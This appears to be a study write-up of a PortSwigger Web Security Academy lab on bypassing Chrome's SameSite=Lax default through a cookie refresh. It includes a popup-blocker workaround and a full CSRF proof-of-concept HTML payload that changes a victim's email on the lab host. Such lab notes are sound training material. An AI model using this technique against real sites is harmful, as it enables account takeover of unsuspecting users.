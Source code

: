 - As mentioned earlier, if a website doesn't include a `SameSite` attribute when setting a cookie, Chrome automatically applies `Lax` restrictions by default.
- However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 120 seconds on top-level `POST` requests. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

#### Note - 
This two-minute window does not apply to cookies that were explicitly set with the `SameSite=Lax` attribute.

- The attack to happen within a short time window is not very practical. Instead, If you can find a tool or something on the target website that lets you make the victim get a new session cookie, you can do that first. Then, you can follow up with your main attack.
- For example, completing an OAuth-based login flow may result in a new session each time as the OAuth service doesn't necessarily know whether the user is still logged in to the target site.
- To refresh the cookie without the victim's help, you must use a special kind of webpage change (top-level navigation) that includes their security cookies. But this creates an extra challenge because you need to send the user back to your site in order to carry out a CSRF attack.


- **alternative approach:** You can make the security cookie refresh happen in a new browser tab so that the victim's current page isn't disturbed before launching the final attack. But there's a small problem with this method: Browsers typically block popup tabs unless the user manually opens them.
**For example, the following popup will be blocked by the browser by default:**
```js
window.open('https://vulnerable-website.com/login/sso');
```

**To get around this, you can wrap the statement in an `onclick` event handler as follows:**
```js
window.onclick = () => { 
	window.open('https://vulnerable-website.com/login/sso'); 
}
```

This way, the `window.open()` method is only invoked when the user clicks somewhere on the page.


## Steps to solve lab
### Title - SameSite Lax bypass via cookie refresh

**Desc** - This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack. The lab supports OAuth-based login. You can log in via your social media account with the following credentials: `wiener:peter`

**Creds** - wiener:peter

#### Note

The default [SameSite](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.


1. Analyse the website and check that three key conditions must be in place for a CSRF attack to be possible:
After analysing the site, we come across a endpoint where it is possible to change the email of a user. So, change your email and at the same time intercept it with burpsuite and sent it to Repeater.
![[csrf71.png]]
   - A relevant action - email change functionality.
   - Cookie based session handling.
   - No unpredictable request parameters - Satisfied(As you can see, there is no CSRF token that we can't predict it).

2. Now, we are going to create "CSRF POC" script with the help of burpsuite pro and for that right click on the request that we captured earlier with the help of burpsuite pro do the below steps:
"Engagement tools" > "Generate CSRF PoC"
![[csrf53.png]]

**After doing the above steps, there is a new window pop up.**
![[csrf54.png]]
In this window, click on "Options" and make sure to select first and last options and click "Regenerate" and copy the script.

3. As you know that, there is a "Samesite=Lax" restriction applied by default by the chrome. Google chrome doesn't apply any "Lax" restriction for almost 2 minutes and it means we've 2 minutes to deliver another link to victim and the first one helps to refresh the Session cookie and second one helps to change the email of victim.

**Payload**
```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
	<script>
	window.onclick = () => { 
	// The below "window.open" code helps to refresh the cookie of victim
		window.open('https://0abc007f04faf2a6803e77a500580044.web-security-academy.net/my-account/change-email'); 
    }
	</script>
    <form action="https://0abc007f04faf2a6803e77a500580044.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="sukuna&#64;protonmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

4. Copy the above payload and paste it on exploit-server and deliver the victim in two times in the limit of 2 minutes.
![[csrf72.png]]
